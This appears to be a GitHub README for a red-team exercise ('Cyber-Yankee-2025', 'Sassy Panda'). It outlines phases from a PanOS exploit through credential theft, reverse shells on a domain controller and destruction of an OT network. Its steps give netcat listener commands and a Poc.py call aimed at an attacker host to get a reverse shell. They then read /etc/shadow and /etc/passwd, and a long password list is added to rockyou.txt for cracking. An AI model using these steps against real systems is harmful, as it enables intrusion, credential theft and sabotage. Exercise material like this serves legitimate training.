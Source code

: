 # Cyber-Yankee-2025

## Sassy Panda

[Phase01](Phase01) - #PanOS Exploit

[Phase02](Phase02) - #PanOS Internal Reconnaissance & Enumeration

[Phase03](Phase03) - #PanOS Persistence

[Phase04](Phase04) - #PanOS proxy chains

---

[Phase05](Phase05) - #Discovery Inside Orange Space

[Phase06](Phase06) - #Credential Access (via LDAP, SAM/NTDS)

---

[Phase07](Phase07) - Lateral Movement and Persistence *DAY 3*

[Phase08](Phase08) - `WinDefMon` Reverse Shell Service on DC

[Phase09](Phase09) - OT Network Target Prep (Later Stage) *DAY 4* - DESTROY NETWORK

[Phase20](Phase20) - Clean the environment

## Steps

1. initial access - setup initial listener (netcat/metasploit) with your 61574
    run command: `nc -lvnp 61574`
2. setup callback listener 63842
    run command: `nc -lvnp 63842`
3. run python:
    `python Poc.py https://<TARGET_PAL_WEB_INTERFACE_IP> <ATTACKER_IP> <ATTACKER_PORT>` # Random high port chosen in script from above
4. once exploit is through, look at initial listener and wait for callback to catch. once callback catches perform
    run command:
    `whoami` # detect who we are
    `cat /etc/shadow` # grab the users on the machine
    `cat /etc/passwd` # grab what shell permissions every user has
    `uname -a` # detect what machine we are running
5.  Add passwords to rockyou.txt

```
Summer2025
JohnDoe123
Password123!
Football@2023
C0ffeeMorn1ng
Ilov3mydog!
ChocolateCake1
BlueSky_2024
M!nnesota@123
GreenTea4U
Soccer#1Fan
p@ssw0rd!!
M!ch@el123
Winter2023#
B3autifulDay!
1234Qwerty!
H@ppyDay#1
MickeyMouse99
P@ssword2024!
Tiger@12345
!LoveCoding4U
Il0vePizza!
$uperman2024
RedCar$2023
L0veMyPet$
PurpleRain2024
!BrightSun2023
P@rtn3rInLife!
M@rtha12!
FishingTrip#2024
Coffee_@123
B@by_Queen23
NewYork2024!
B1gCats123
Tiger$Lover2023
CodingRocks!23
Weekend_2023
Fr@nkie_Love
123A1B2C3$
Cr@zy2023!
HappyD@ys123
@HomeSweetHome
Flowers_2024!
M@xy88!
CoMput3r$2023
L0veMyLife!
Sunshine!123
D3sert_sand
Smart_Guy2023
Jumpy_Dog$2024
Princess!123
March@2025
Security2025!
m@nny_smith
G@rdenFlowers
B3autiful2024
Lucky_1234
CoffeeTime!24
C0d3r_Life
Windy_Day!2024
SpringFl0wers#
ChocoC@ke2023
G@rden_Party!
N0vember@2024
M@rtin007
Silver@Fox23
BestD@y2024
E@gleEye2023
Amazing_2024!
St@rWars123
Sugar@L0ve
Little_Lamb2024
Super@star23
T1me2W1n
Alp@caFarm2024
Cool_Dude123
Sp@rkle_Snow
Peace!_2023
LoveToCode23
John!N@g@2023
Doggie2024!
St@rLover!12
M@zyRain@23
12J@neDoe#
Beach_@Sun2024
R3liable@Friend
Jumper_1234
CatsAre#cute!
Delicious!Bite
123_f@llSun
Powerful123#
Game_Over2023
TastyTreat#1
Princess_@23
W0rld2024!
SkylineV!ew
HappyFeet123
@HeLLo#123
Go_Tigers2024!
Skylark_!@#23
M0nkeyLove#23
Swimming_@24
Chocolate_@12
Runner_Girl24
F@mily_Tree2024
WineLover123
H@ppyDog#23
Smart@Coder
MyG@rden2024
Coffee!Beans123
B@by1Cats
T3aTime#2024
Gr@ndma!2023
Working@Home
L@ndscape_123
Nature@Beach2024
Morning!Vibes
Winter!2024_
Best#S@lution
Ready4Work2024
Sunny#Day@123
OldH@ppy!T1mes
Rainy_Day_123
EagleFlite@123
Hunter!Fox123
Blue_Waves23
Shin1ngStar!
Trav3l@2023
SpringBreeze2024
NoT1meToStop!
Sunrise@Mom
Breeze_Sunset123
Sunset_#2024
Music_Flowers123
SkyHunter@23
Healthy_Life2024
Br!ghtM0rning
S@fety12345!
SummerD@ys2024
H@ppy!Coding
Beautiful#@rain
B3autiful2023
L0ve_theSky!
Time4Bed@23
M0rning!L@nd
St@rBurst2024
BigH0lidays#
FoodLover2024!
Strong#Heart1
Let'sGo!ToBe
MasterCode!23
D0gLovers123
K!ttenTime2024
PuppyLove_23
Peachy@Life24
Fancy_2024!
BeachTime24
SleepyM0rning!
G0ldenMoon#23
CoolDays@123
!QAZ@WSX1qaz2wsx
```
